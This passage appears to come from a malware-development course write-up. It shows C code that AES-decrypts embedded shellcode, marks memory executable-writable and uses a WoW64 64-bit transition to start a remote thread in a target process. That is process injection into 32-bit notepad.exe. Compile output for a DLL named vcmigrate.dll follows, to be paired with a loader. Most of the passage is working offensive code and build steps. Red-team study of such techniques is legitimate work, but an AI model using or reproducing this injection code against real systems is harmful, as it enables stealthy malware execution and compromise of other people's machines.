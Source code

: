 ```c
	AESDecrypt((char *) sh_wownativex, sh_wownativex_len, (char *) sh_wownativex_key, sh_wownativex_key_len);
	memcpy( pX64function, sh_wownativex, sh_wownativex_len );

	// pX64function shellcode modifies itself during the runtime, so memory has to be RWX
	VirtualAlloc( pX64function, sizeof(sh_wownativex)+sizeof(WOW64CONTEXT), MEM_COMMIT, PAGE_EXECUTE_READWRITE );

	// set the context
	ctx = (WOW64CONTEXT *)( (BYTE *)pX64function + sh_wownativex_len );

	ctx->h.hProcess       = hProc;
	ctx->s.lpStartAddress = pRemoteCode;
	ctx->p.lpParameter    = 0;
	ctx->t.hThread        = NULL;
	
	// run a new thread in target process
	pExecuteX64( pX64function, (DWORD)ctx );
	
	if( ctx->t.hThread ) {
		// if success, resume the thread -> execute payload
		ResumeThread(ctx->t.hThread);

		// cleanup in target process
		VirtualFree(pExecuteX64, 0, MEM_RELEASE);
		VirtualFree(pX64function, 0, MEM_RELEASE);

		return 0;
	}
	else
		return 1;
}
```



> **x86 Native Tools Command Prompt Compilation**
>
> We must run the compile script (`compile.bat`) from **x86 Native Tools cmd** to get 32-bit shellcode for **VCload**, since we want to inject to the 32-bit `notepad.exe` process.
{: .prompt-info }


Compile (with `compile.bat`) and get the DLL `vcmigrate.dll` with the function `Go` exported:

```shell
C:\Projects\sektor7\intermediate\08.Project\VCmigrate>compile.bat
vcmigrate.cpp
   Creating library vcmigrate.lib and object vcmigrate.exp

C:\Projects\sektor7\intermediate\08.Project\VCmigrate>
```

Now, simply copy the DLL into **VCload** folder.
